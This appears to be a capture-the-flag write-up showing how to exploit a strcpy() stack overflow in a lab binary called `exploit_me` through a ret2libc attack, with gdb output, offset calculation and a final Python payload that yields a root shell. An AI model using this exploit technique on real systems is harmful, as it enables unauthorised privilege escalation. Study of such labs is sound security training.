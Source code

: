 # Buffer overflow identification.

In this user's home directory there is one binary called `exploit_me` and a `mail` directory. Let's forget about the directory and focus on the binary. Using `gdb` we can see the following.

```gdb
  $> gdb ./exploit_me
  (gdb) disas main
  Dump of assembler code for function main:
    0x080483f4 <+0>:     push   %ebp
    0x080483f5 <+1>:     mov    %esp,%ebp
    0x080483f7 <+3>:     and    $0xfffffff0,%esp
    0x080483fa <+6>:     sub    $0x90,%esp
    0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp) // Check for 1 argument
    0x08048404 <+16>:    jg     0x804840d <main+25>
    0x08048406 <+18>:    mov    $0x1,%eax
    0x0804840b <+23>:    jmp    0x8048436 <main+66>
    0x0804840d <+25>:    mov    0xc(%ebp),%eax
    0x08048410 <+28>:    add    $0x4,%eax
    0x08048413 <+31>:    mov    (%eax),%eax
    0x08048415 <+33>:    mov    %eax,0x4(%esp)
    0x08048419 <+37>:    lea    0x10(%esp),%eax
    0x0804841d <+41>:    mov    %eax,(%esp)
    0x08048420 <+44>:    call   0x8048300 <strcpy@plt> // Copy $ebp somewhere else
    0x08048425 <+49>:    lea    0x10(%esp),%eax
    0x08048429 <+53>:    mov    %eax,(%esp)
    0x0804842c <+56>:    call   0x8048310 <puts@plt> // Prints the result of strcpy()
    0x08048431 <+61>:    mov    $0x0,%eax
    0x08048436 <+66>:    leave
    0x08048437 <+67>:    ret
  End of assembler dump.
```

> Apparently, this program need one argument. It simply use [`strcpy()`](https://man7.org/linux/man-pages/man3/strcpy.3.html) to copy whatever we send before printing it using [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html). As stated in the man of `strcpy()`, If the destination string of a `strcpy()` is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

We can create a **buffer overflow** that will override what's stored on [EIP register](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for), to execute arbitrary code. This exploit is called a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3). To perform this attack we'll need few things:

- Find where [`system()`](https://man7.org/linux/man-pages/man3/system.3.html), [`exit()`](https://man7.org/linux/man-pages/man3/exit.3.html) and `/bin/sh` are stored in memory.
- Find where the buffer and EIP addresses are.

# Analyze program and environment.

Let's use a quick gdb routine to get these informations...

```gdb
file /home/zaz/exploit_me
b *0x08048425
r 0000000000000000000000000000
p &system
p &exit
find &system, +999999999, "/bin/sh"
x $esp
info frame
```

> We create a breakpoint after `strcpy()` to locate where is the buffer using [ESP register](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers), then we run the program with some arbitrary input. Get the adresses of `system()`, `exit()` and locate adress of `/bin/sh` between adresses of system and the rest of memory space. Finally fetch `esp` and `eip` using the [stack frame](https://www.techopedia.com/definition/22304/stack-frame#:~:text=A%20stack%20frame%20is%20a,pertaining%20to%20a%20subprogram%20call.&text=A%20stack%20frame%20also%20known%20as%20an%20activation%20frame%20or%20activation%20record.).

Running this routine gives the following:

```gdb
  $> gdb -x ret2libc.gdb --batch
  Breakpoint 1 at 0x8048425

  Breakpoint 1, 0x08048425 in main ()
  $1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
  $2 = (<text variable, no debug info> *) 0xb7e5ebe0 <exit>  
  0xb7f8cc58
  warning: Unable to access target memory at <SOME-ADRESS>, halting search.
  1 pattern found.
  <SOME-ADRESS>: 0xbffff5b0
  Stack level 0, frame at <SOME-ADRESS>:
    eip = 0x8048425 in main; saved eip <SOME-ADRESS>
    Arglist at <SOME-ADRESS>, args:
    Locals at <SOME-ADRESS>, Previous frame's sp is <SOME-ADRESS>
    Saved registers:
      ebp at <SOME-ADRESS>, eip at 0xbffff63c
```

> `system()` is at address `0xb7e6b060`, `exit()` at `0xb7e5ebe0` and `/bin/sh` at `0xb7f8cc58`. **ESP** is at `0xbffff5b0` and **EIP** is at `0xbffff63c` in this case.

Now we need to check few things before trying to exploit this vulnerability. First, [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) must be off and the [endianness](https://en.wikipedia.org/wiki/Endianness) of this machine.

```shell
  $> sysctl kernel.randomize_va_space
  kernel.randomize_va_space = 0
  $> lscpu | grep Endian
  Byte Order: Little Endian
```

> According to this [thread](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), **ASLR** is disabled, and this machine is in little endian, we'll need to reverse byte order to get the right addresses.

# Compute buffer offset.

In order to perform this attack we need to generate a segfault in the program. In this case, it means to find the offset from which we start to override stored addresses in **EIP**. To do so, we simply substract the address of **ESP** to **EIP**.

```shell
 $> echo 'ibase=16; BFFFF63C - BFFFF5B0' | bc
 140
```

> Thanks to [`bc`](https://linux.die.net/man/1/bc) we can quickly substract these two by specifying the input base, here **hexadecimal** (16).

Now that we know that the offset must be **140 bytes** we can check it easily using [python string multiplication](https://www.pythoncentral.io/use-python-multiply-strings/).

```shell
  $> ./exploit_me `python -c "print '0' * 139"`
  0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  $> ./exploit_me `python -c "print '0' * 140"`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  Illegal instruction (core dumped)
```

> **139 bytes** works perfectly, **140 and above** segfaults.

# Ret2libc attack.

Final step is to construct a sequence of bytes after this offset that will execute in order `system()`, `exit()` and finally `/bin/sh` and we have all these addresses to do so!

```shell
  $> ./exploit_me `python -c 'print("0"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`X
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> In Python, `[::-1]` is a way to reverse string, needed here to swap between big and litle endian.

As you can see, we are now root on this machine!
